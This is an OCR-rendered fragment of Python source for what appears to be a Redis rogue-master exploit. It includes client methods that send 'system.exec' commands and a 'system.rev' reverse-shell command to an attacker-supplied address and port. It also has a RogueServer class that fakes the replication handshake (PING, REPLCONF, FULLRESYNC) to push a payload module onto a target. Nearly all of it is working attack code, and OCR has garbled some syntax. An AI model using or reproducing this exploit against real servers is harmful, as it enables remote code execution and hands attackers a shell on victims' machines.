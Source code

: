 def recv(self, cnt=65535):
    return din(self._sock, cnt)

def do(self, cmd):
    self.send(mk_cmd(cmd))
    buf = self.recv()
    return buf

def close(self):
    self._sock.close()

def shell_cmd(self, cmd):
    self.send(mk_cmd_arr(['system.exec', "{}".format(cmd)]))
    buf = self.recv()
    return buf

def reverse_shell(self, addr, port):
    self.send(mk_cmd("system.rev {} {}".format(addr, port))) 
```

class RogueServer:

def **init**(self, lhost, lport, remote, file):

self._host = lhost

self._port = lport

self._remote = remote

self._file = file

self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

self._sock.bind((‘0.0.0.0’, self._port))

self._sock.settimeout(15)

self._sock.listen(10)

```
def handle(self, data):
    resp = ""
    phase = 0
    if data.find("PING") &gt; -1:
        resp = "+PONG" + CLRF
        phase = 1
    elif data.find("REPLCONF") &gt; -1:
        resp = "+OK" + CLRF
        phase = 2
    elif data.find("PSYNC") &gt; -1 or data.find("SYNC") &gt; -1:
        resp = "+FULLRESYNC " + "Z" * 40 + " 0" + CLRF
        resp += "$" + str(len(payload)) + CLRF
        resp = resp.encode()
        resp += payload + CLRF.encode()
        phase = 3
    return resp, phase
